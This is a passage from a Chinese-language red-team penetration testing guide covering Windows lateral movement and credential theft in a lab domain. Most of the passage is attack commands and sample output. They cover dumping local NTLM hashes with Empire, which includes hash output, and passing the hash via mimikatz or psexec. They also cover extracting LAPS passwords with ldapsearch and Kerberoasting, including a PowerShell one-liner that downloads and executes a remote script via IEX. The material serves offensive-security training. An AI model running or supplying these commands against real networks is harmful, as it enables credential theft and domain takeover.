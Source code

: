 - 执行命令： shell net user administrator
- User name    Administrator
- Full Name
- Comment Built-in account for administering the computer/domain
- User’s comment
- Country/region code 000 (System Default)
- **Account active Yes**
- Account expires Never

如果我们看到帐户处于活动状态，我们可以尝试从本地计算机中提取所有哈希值。请记住，这不会包括任何域账户哈希：
- Empire Module: powershell/credentials/powerdump
- Metasploit Module: http://bit.ly/2qzsyDI

例如：
- (Empire: powershell/credentials/powerdump) > execute
- Job started: 93Z8PE

输出：
- Administrator:500:
- aad3b435b51404eeaad3b435b51404ee:3710b46790763e07ab0d2b6cfc4470c1:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

我们可以使用 Empire（credentials/mimikatz/pth）或者启动可信任的 psexec，提交我们的哈希，并执行我们的自定义 payload，如下图所示：

![](img/chapter_4/4-40.png)

如前所述，这是一种现在少见的古老的横向移动方式。如果你仍在考虑利用本地管理员帐户，但所处的环境有 LAPS（本地管理员密码解决方案），你可以使用几个不同的将它们从 Active Directory 中转储出的工具。这假设你已经拥有一个域管理员或 Helpdesk 类型帐户的权限：

- https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/enum_laps.rb
- ldapsearch -x -h 10.100.100.200 -D “elon.muskkat” -w password -b “dc=cyberspacekittens，dc=local” “(ms-MCS-AdmPwd=*)” ms-MCSAdmPwd [https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/]

这是保持横向移动而不注销 Helpdesk 用户帐户的好方法。

### 从服务帐户获取凭据

如果你发现自己处于一个用户权限受限、无法从内存中提取密码、主机系统上没有密码的情况下，该怎么办...接下来该怎么办？好吧，我最喜欢的攻击之一是 Kerberoasting。

我们都知道 NTLM 存在缺陷，这是由于单向哈希（不含盐）、重放攻击和其他传统问题造成的，这也是许多公司转向采用 Kerberos 的原因。如我们所知，Kerberos 是一种安全的方法，用于对计算机网络中的服务请求进行身份验证。我们不会深入研究 Windows 中的 Kerberos 实现。但是，你应该知道域控制器通常充当票据授予的服务器；网络上的用户可以请求票据授予服务器以获取资源访问权的凭证。

什么是最严重的攻击？作为攻击者，我们可以掌握我们之前提取的目标服务帐户的任何 SPN 请求 Kerberos 服务票证。漏洞在于，当从域控制器请求服务票据时，该票证使用关联的服务用户的 NTLM 哈希加密。由于任何用户都可以请求任何票据，这意味着，如果我们可以猜测关联服务用户的 NTLM 哈希（加密票据的）的密码，那么我们现在就知道实际服务帐户的密码。这听起来可能有点令人困惑，所以让我们来看一个例子。

与以前类似，我们可以列出所有的SPN服务。这些是我们将为其提取所有 Kerberos 票据的服务帐户：
- setspn -T cyberspacekittens.local -F -Q */*

我们可以将单个用户的 SPN 作为目标，也可以将所有用户的 Kerberos 票据拉入用户的内存中：
- 针对单个用户：
  - powershell Add-Type -AssemblyName System.IdentityModel;New-Object
    System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList “HTTP/CSK-GITHUB.cyberspacekittens.local”
- 将所有用户票据拖到内存中
  - powershell Add-Type -AssemblyName System.IdentityModel;IEX (New-Object
    Net.WebClient).DownloadString(“ https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1 ”)
    | ForEach-Object {try{New-ObjectSystem.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}
- 当然，你也可以使用 powersploit 执行此操作：
  - https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/
